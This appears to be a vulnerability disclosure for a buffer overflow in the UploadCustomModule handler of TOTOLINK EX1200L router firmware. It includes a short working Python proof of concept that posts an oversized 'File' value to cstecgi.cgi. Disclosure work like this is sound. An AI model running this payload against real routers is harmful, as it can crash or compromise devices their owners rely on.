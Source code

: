 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/217/ids/36.html

## Affected version

EX1200L_Firmware V9.3.5u.6146_B20201023

## Vulnerability details

In the EX1200L_Firmware V9.3.5u.6146_B20201023 firmware has a buffer overflow vulnerability in the `UploadCustomModule ` function. The `v10` variable receives the `File` parameter from a POST request. However, since the user can control the input of `File`, the `strcpy(v18, v10);` can cause a buffer overflow vulnerability.

![image-20240721211523937](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721211523937.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"File":"a"*300000,"topicurl":"UploadCustomModule"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
